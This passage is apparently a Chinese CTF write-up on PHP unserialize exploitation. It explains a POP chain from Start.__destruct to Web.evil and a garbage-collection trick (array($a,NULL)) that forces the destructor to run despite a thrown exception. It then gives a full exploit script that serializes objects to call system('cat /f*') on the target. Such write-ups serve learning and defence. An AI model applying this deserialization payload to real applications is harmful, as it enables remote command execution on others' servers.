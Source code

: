 pop链

```php
Start.__destruct() --> Crypto.__toString() --> Reverse.__get() --> Pwn.__invoke() --> Web.evil() 
```

整个链子逻辑很清晰，关键考点就是开头的这一步，由于题目会抛出异常，导致__destruct()方法不能触发，所以我们要进行绕过，下面对绕过方法解释下

**GC回收机制**

> 在PHP中，使用`引用计数`和`回收周期`来自动管理内存对象的，当一个变量被设置为`NULL`，或者没有任何指针指向时，它就会被变成垃圾，被`GC`机制自动回收掉那么这里的话我们就可以理解为，当一个对象没有被引用时，就会被`GC`机制回收，在回收的过程中，它会自动触发`_destruct`方法，而这也就是我们绕过抛出异常的关键点。

也就是在最后序列化前进行`$A=array($a,NULL);`这样的步骤
 exp如下

```php
<?php
class Start{
    public $errMsg;
}

class Pwn{
    public $obj;
}

class Reverse{
    public $func;
}

class Web{
    public $func;
    public $var;
}

class Crypto{
    public $obj;
}

class Misc{

}

$a=new Start();
$b=new Crypto();
$c=new Reverse();
$d=new Pwn();
$e=new Web();
$a->errMsg=$b;
$b->obj=$c;
$c->func=$d;
$d->obj=$e;
$e->func='system';
$e->var="cat /f*";
$A=array($a,NULL);
echo serialize($A);
```
